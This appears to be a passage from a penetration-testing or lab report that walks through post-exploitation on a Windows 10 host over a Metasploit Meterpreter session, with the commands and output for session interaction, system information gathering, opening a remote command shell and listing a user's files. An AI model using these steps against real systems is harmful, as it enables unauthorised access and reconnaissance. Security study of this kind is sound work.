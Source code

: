 After establishing the connection, we interacted with the session using:

```
msf6 exploit(multi/handler) > sessions -i 1
```

This provided access to the Meterpreter shell, where various commands were executed to demonstrate the level of access obtained:

#### 4.6.1 System Information Gathering

The `sysinfo` command revealed detailed information about the target system:

```
meterpreter > sysinfo
Computer        : DESKTOP-8L8LKMM
OS              : Windows 10 (10.0 Build 19043)
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

#### 4.6.2 Network Information Gathering

We obtained network information using various commands, revealing the target's IP addresses, MAC addresses, and network interfaces.

#### 4.6.3 Shell Access

Shell access was obtained using:

```
meterpreter > shell
Process 10328 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19043.1165]
(c) Microsoft Corporation. All rights reserved.

C:\Users\amshu\Downloads>
```

This provided direct command-line access to the target system, allowing execution of arbitrary commands.

#### 4.6.4 File System Access

We accessed the file system and listed directory contents:

```
C:\Users\amshu\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 6017-91CE

 Directory of C:\Users\amshu\Desktop

09/07/2021  11:05 AM    <DIR>          .
09/07/2021  11:05 AM    <DIR>          ..
09/07/2021  11:05 AM               355 Computer - Shortcut.lnk
               1 File(s)            355 bytes
               2 Dir(s)  20,036,415,488 bytes free
```
